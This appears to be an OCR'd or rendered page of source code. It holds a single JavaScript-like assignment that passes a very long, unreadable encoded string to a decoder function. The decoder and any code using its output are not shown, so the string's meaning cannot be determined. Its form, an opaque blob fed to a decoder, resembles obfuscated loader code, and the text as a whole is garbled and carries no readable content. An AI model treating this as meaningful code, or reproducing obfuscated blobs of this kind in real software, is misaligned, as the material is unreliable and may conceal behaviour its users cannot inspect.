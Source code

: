a=d(t,"D{PjtF&)/K^q:H<sq_FH_^q/&&t<:P)w{<XHK^KtjssPK)fpst^<FKNF&&&H{{:F)o::qH)l{)H&)jPj<P/{j:K/K^tj^P^tt&s{^:tHuK&t&&ks&<&susqHP&Pq:^)FjxH{j^j:H</Ktq^4/st<<sj/stKttPs8<H:{&<{tqs)P{)/5jHH:H{/tjF<qPF).Fs:sKK*:jK)/F{tj<<K:t^s/^&Ftt&sQF<PPq^&/{&r&Hj/jjK<jK:t)sq^Pt&<tq_tH./qq&&wF:t&F{:qs/jqq&&{t:P)3{<P:H:&/HK/tjP<k/<j:P^9V/&s)^PFXs<^:F^;/<^^t{P:K&<{::^:qKFt&s&)sFvs2KsF^K&F?sP^wt<F{sj^t&sP)H&F:{s<F/KjH<^PtHq/NP<H:<H^)F/yjq)&t;)q^Fs^qqFt/^<Ks&:{&F/H):&/tPPHg)<&<jq<q^{tq,t^s&jf^^<jq{F:w){PPK{m::_&/{&:tqs/{tU<)/st^/&j/<PK=j<js6j:PFq^t&jJ5^<F:FjPF:))qP):tKTPH</Kqt&<F^ttFs:Ks&jKqKKFH)P/sHqt&{Kt)qK&t{P:r&<{:t^qs&&H)HjsK&F::jP^sF</jsP^<t<s:^^^q&KP&H{):P^HF//Psq:K&jj<HKjH:Ktj/<&KtK&FF{&:pjH{):P)jPtKj{{q:&^{/:&)t^PP&q<P:<t//j&<t<F^FF^Y{^H&:8)q&&<{F&{<:^tK&H&&^&s_:>H):jjH//&jtj{I#^jF^HHqt&F{)q)Jj^<F:7^q/&&{tH<qv{<Ht)^P/H&H/K)F/yP/sFj{P^qs)^PFUs<^:F^P/P{^t{F:4&<{::^)/F&t::PjjH</:j^</K&:tjP<lt<=^^^F/e&E)H{/Fj3:s)s{qH)KPtF:PKHt/<<j/AHKttPs_sPqt&j{q)&&^{q::)jH:<{)KjKKtKPtP<H^wjs<q^^tKs&&?&F Fq<&O:&^{){{s::Fs{s:qj&{^^FPj{HK&Hjs/P)P{t&:st{<:K^t/s&^tFPt{<<Fsg^q/&&{t:PqB)j :)H^{ss:{F{q^KscjPKKqt&st^PFhs<^:)^t/qKs/P<^F.qqF&jj{&FHt/^jZH</:)sjq<&/)t{<:KHt<^HF/3&qt&P{yq<:qF^:qtjKFPKtE:Fs&Ps))<&K)tPsBK<K<t{<^F&-/qP&}1<i{qH&/{K))PPHr)<P:H^//t&PtKFtl<<K:t^s/:&qFtPqjs&HsqsP)K^zjjFFsH{):P^H//&jtPPuq)<<sU&jt^F:jP:Pq{/{q9Hq/&&{t:P)JF<jjq^P/<t/tjP<c<//FF/s:^q&:<tqF&&RHHC){PFH&{P:/&<{::^qH)KPtHF/tjjHP/X<qP&/H:{Fs&<Hs/:K)LKqt&P{Uq<&:j^P/q&PtHK/nP<H::q^tFPAH/)tj<<t:2&^/F&WtstqF&P{YqK&&U^qK)F{K:F)^H^K{j&<tKPKjF{m<^sFH{tKq)){KF<{{q^&/{&u^<t/{jq<{P:HK/Kj:jF<^H<tFIj{HjF^))HYH&^)qP/H&gtHj:PKq{<::)^Kwt^s/^P{^qH&q&{NsqHPP{tqs&9{/:K/a<t:)/{PHKH)HjH<q/qt/q{&st)sO)){K:/)qPPHF/PjF<{/Hjq<)&F{Uq<&:{^:/)&F;{P/lj/H:/^j/jKWjq)&P({q{tHWK:t))qFjt^^F/tKF/&){^&{HL/jP:H^///qPK<FK?{sKst^s/^&FtOPjn^)t:q^&H{&:t)P&KjqHHK{jH/K^tKss^{H/^/)^:jF^tF^nV^<F:Fsd{^K/jjtH</jj<)^PsH&/tjPjECG^{&a7{^q&q^PFFs<^:F^FHs^:H)ssP&<Pj:^)/P&PGH&//PHH:)sj&K&tHsP^Yt<Fm{:qK&K{KHtFF{{q:{^::)&PtHPHPKjjss<jqFo{:FFFdtPF/H&<)FKq/zF^j/<&)KHs^IF)tj<H0)<P:PKs/KqFP:{/jF^JqqHFH:&KqF)sK)<jtN)H))/PHH</F<<:qK/ttssFH<FK4j<<:K^t/j&3&KP+ q)F:p^q/q^)KPjHH&{jq<&K)t//tj/<%/<j:j/HKKjjKsF^.B{F^tHj&F&qt:s&s^H{::H)/P&Ht:&^Ft</sP&P^K^ttHs:FPPjq^^&Pb&qt&P&tPj<t/<8^<qK/t&<sK:HsBHt.qtjj::^K/j/qsH^/F&3tqP&l}<sK^^{/::)tPPH6qs/st<s{^:tKKPtq<<K:t^jK{tq)&^{sH8F:PKH{/tj/)PPq:<):P^P{sjKFtKsF/M&{-<q:&F{PFF4(^<F:C^q/&&{t+P)SP^::)^P/{/sj^tttsj^<PHT)qP&j{t/js<q)F^+/q&q8)jjKHHK{j<:)K/j/<)^P<{/:j^</K&ttsP<q/<ss^^F/g&qt&PqSP<^:{^Ht)&PtHP:jKHt<s/KHF/<&^jFt}):{&H^qF&}tqP&%_<q:/<F/:&)/PPH_)</BjsTS^^<)s:Fs{&H:PK{{&HKjnPqjF<m:q^q)/tPK)PPs:<):P^Pq<q^/F&sK^:FjRH^^&q{/:&&s{<:^Y^q:&&{t:P:F&PjF<)PqPj^<{PKs/j&t:<H)t&,&^PFys<ss:K)HP/:))){j:s/^jH:q/qt{<qKPtHs/K<<q{{&:&j:i<K{F)cK)Z&qF&P{Eq<Hq{H:/)&PtHP/yP<{<:^jq<&KttPsfK<t:jj</FKotqP&o%<q:&^9/UF))PPH})<P:H^//F<PtKP&z<<K:t^t/{q:/)FHoqsP:{:H)/<<tHjKPjHs{K/j:^&^/t^sFF<tsrP^K&/WFqF)t{j:<P^qq&&{t:P)n{<<:s&&/HK/tjP<V/<j:^^sP/&s)&qFqqt^q:F<PKF^j{P:)&<{::^HqKFtAs{^Pt<sFj^{sK&ttsPs6:j)T{H)/&)Ht:K):PH<jj^PK<t//sP<s^jFis&^{FtsK&PFFss^s&P:/:&)}{jHK)jP</^/:jFKtKFjF<jt:t<s5KqF{qP^jF^y{^q&^{P:HYPHqF<x:q^HQ/^j/<PF^sH^q^{tssH&PFtss^XF/gK:zPtT):{&HHHqH)HPq:q//s{^s/)j_q)FKRqq&&F{O:&)P{s:/)^Pq^FKHqH/j)Kts)^PtF{:jHo/=Hfs/#Kt:F)&s<{/:j^</K&tt)P<^/<ss;q&Pq)KjK<q{&t^q{^HP)&PtHP:t^ctqs^/qt<sF^&Fs{Ft:{H^/F&Zt5F:/)HjjHHj/j&<X/jtK<jK<tH^/^ttFss^Ff<sH^:&){:qKPPPt:&){PjH^j&P:H)/{jP):j/H//&jtjFsKq/F{HHq)&t{):&)P.s:F)/P:&&{^:P)z{<{P<KKtj^<K^t<hqKj:<^K/^<&/{&:mj/Hq/K)sPHHqt,jPHH)<j&<)K<0P<FKstqqqKqFq+K^K&&:s/H&F*<KFj)<KKttPs)K:tss:^:F/-j/jP<H:/^j/<&st^^jZK<F0s^^/F&t^P{:</Pq:/{{/:&)tKtjPs&/HtHsqKqF/sq^tP/:q)KPKH^/)jF<jKtjH<sKHt&:t)^PE:<):&sPqH&)^jtH{/qj{K^FFs&^tFPFssL:tFqgtq:&:Ps<{Kttt:K/sH&K{jP<A/</qF^sHqtPj<Fq:&H{sqsFFPF:&{Ft.^Fs)<KFPqq/P:{j?<:/:j^</<FqtF)I<)Hjs{&:))K{K/PF){jqF{HjPjsFT{Pj?:/q<:Kj/<KKttPs1sP:j&K^qF&2tqP&=A<j::jF/:Kts:t)&qHPPKP&j)F<tKHt><<K:KH&tSsq)&)sj:j)^P<:H//:t))P8:<):K<t{s^^?t)KZtt<:K^t/j:{&qj&HCs:{_H<{{q^P^{//)&^{qKPq<^jj9t)s)qjt/^H)t&s:^PFis<ssqs):P^:H/_P)<{{sq))Fo{)j<:^/qq:qj:</K&FPsP^rt<{::^)/tq6)qPj0B{Hq/&j)</tth:/UjPH:/^j/jtsF^sFF^{t:s^^/F&StqP&;(<qs&^{/:&)tPPHOKP&:H^K{j&<tKP//jjHHK&t:<<KKFFMpF<{^q^&/{&{/H)K/tPHt&qtt<sKqF0sH^jF^l<tqKH<Pt^KsK&FFs)s)&&{s:P)2{<{GHsKqjKs&KqF6IP^FFK*&tKh^^^HFq<jPt:^PsF&))^KFq:s:PFP{:K{j/Pt)H</:j^F^s/q:Fj{j:{&{{<:{&^<<K{jsstK:tqs:^/F^}jqK&)Rs/^j:<&KttPjFS::{&)^/F:RtqP&f&/*FH/):Pq<:PFH2)<P:H^//q&j:HPtis/K:t^s/<::&&){t:H)){qq)/tPK)PP^:<):P^Pr<qKFt<+t^&_:HsKqt&^):sFs^)HqP{:&t/Fj:P)&{<::)^)ljq<FK<Fts&j:s/K/t&sts&qFFs{K)^tqPFH(/{jP/<&{{H:/PK)s:s/:KsHtss^tHFttsq^5t<s:s<qH)<P/^<){PWH{/&:qKH)K<P:=<<_s)ts)<&K^tPs=K</<tKioKqF)cP&j3<q:&^{/:&qtKt{1/{j^t5)y{FHsFq{PPHKss:PF//{j&q<st)tqq^)P{&:t)P)ttxHH/HjHs/FtP)<j/<<:qjt/s&^tKs&s{H:^FH{H:K)j{F<tK7jF<//stK::KqttsP^{F/HKq^&/{tFRG{^:F^5/_^Hj/P:O)F{::^)/&/tjs^FfPjHs/^</K<ttsP^QKP&F{H::&)PP:F)Fq<)^{^:/)&)/j)s/^PjF:q^ttssqqfFHZjq^&<^q<^t{)s{sP)sFjqF):K)tPPHm)<P:q^s))&<)KPtE<<K:t^s/HKKtcFK{ttHFsKHsKqKFq{Pv<R):P^H/HKK)Ftss^^F/H:^K&/s/q^&K{{:))/{HHK/):P)t{<::)^/sj)s{K)<v^&j:<^K/q/F&{^q{){{sqs):{s:/t:<sKHtHs:^KF/+/qt&K{tqs&H{qKKttsP^2t<s:^^q/t&q)&P{Bq<&:{^W/Hq&tHP/^P<H:/^/^tqb>^j&t!):PFsy_^<o)qP&dZ<q:&^{/PqqtPPHK)<P:H^:H/KjtqP/jFH}/qK&^^&F)=PqEF<)^{sHs{&:q)PPI:<HP/sjqs^^jFt:Pt{<:K^t/s&^tFPj{<<Fsf.sP/qFt//)F:)/q)H?^sq:qFP/sP:YPPKKqt&st^PFLs</::{t/qK&t{P:7&<{::^qj&&H)^KHF&):q{2Hk&&/jsP^:t<s:^^K:&sP)H&){P::s)s</qq))PP/jP<H:/^j/<&Ktt^j>K<F)s^^/F&t)P{::)HP<qH/sPs<//Fj/)<jjH^//j&j)sq^PF^xFq/Fs^&F^MPq+F<tsPKHt/Fj&^FPcHP):P^H/sH^&tjlQt{/H)%)K)&&Hj<qt<HF:jBq/&&{t{FH//Htj<Ht/t&s KjFKsj^<FHq/^<FKpjq:)P{t:HP/{):&/{j&Hjj:j<<;/qjHstFat&s{Kqt:K&FVsP^.t<tses::)^{HHB))ntH<)qjFHqPtH//uP<H:H^KKF/sKqY&tK<F:s^^/F&FjP)Ht)^PFH/)HsFqq/<jssFt:{sHq/&<tK)tp<<K:KH&tZsq)&)qI&HQ:q^&/F/jj<t/tjj<<)Ht{r*KKjPsKq&F{r&t/sH^tFPnS;t:F)HP{://+P))j{F&Kj<<)F:)&{:{s/<tF<^K/t&t)CFq{&^{{^</{P&:K{P:{&<{::^:tP&HK/Pj0H<<m^PF^sq^KsPqYt<s:^^K:)/PjHP&jP&:H)<j)<H&:t{<:KPt{s:j/<HKttPs3rtq<&K{F^/tqst&;{^q:&^{/!q::&j{H:<)/{sq))HjJ<{K)<<^Kt^s/^&K:&q{t:jP:?<:H))j{KP&FP{::PH:K)FsT.{}^q^HjHKtqP/Js^tKs::H&Rjs)&&{::P)u{<{F